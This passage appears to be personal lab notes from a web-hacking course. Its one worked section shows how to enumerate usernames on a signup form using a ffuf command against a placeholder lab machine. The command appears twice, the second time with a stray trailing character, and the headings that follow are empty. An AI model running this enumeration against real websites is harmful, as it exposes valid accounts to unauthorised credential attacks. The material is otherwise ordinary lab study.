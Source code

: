 ## Username Enumeration

This is a simple example, suppose if a website has signup option and when you enter a username, it says that username is taken. How can we enumerate users from here?

```shell
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"f`

Ffuf definitely has started to look amazing now.

This can be used as a template in future.

## Brute Force

## Logic Flow

## Cookie Tampering

